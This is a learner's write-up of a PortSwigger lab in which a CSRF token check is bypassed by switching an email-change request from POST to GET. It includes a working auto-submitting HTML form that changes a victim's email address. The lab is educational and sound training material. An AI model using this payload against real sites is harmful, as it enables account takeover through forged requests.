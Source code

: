 # Lab: CSRF where token validation depends on request method

- link to lab: https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method

## Steps and deep understanding

In this laboratory, I found a "change email address" function which is vulnerable to CSRF. There is a protection against CSRF using a token to validate the origin of the request

The first step is: also viewed in the title, the tip is: 'depends on request method'

So, I changed my email to intercept the request using burp suite to analyze it:

![alt text](img/image.png)

let's send it to Repeater and try the same request without the CSRF token:

![alt text](img/image1.png)

Then, I only change the request method to GET to see what happens:

![alt text](img/image2.png)

Basically, the app doens't care here about the CSRF, let's use this case to craft our malicious HTML and solve the lab delivering into the exploit server:
```
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="email@example.com">
</form>
<script>
        document.forms[0].submit(); // auto submit the form
</script>
```

- Without define the method, it will be a GET
- I don't know why, but, the value goes automatically to a parameter change-email?email=examplehere
- Delivering the exploit to the victim and solving the lab:

![alt text](img/image3.png)
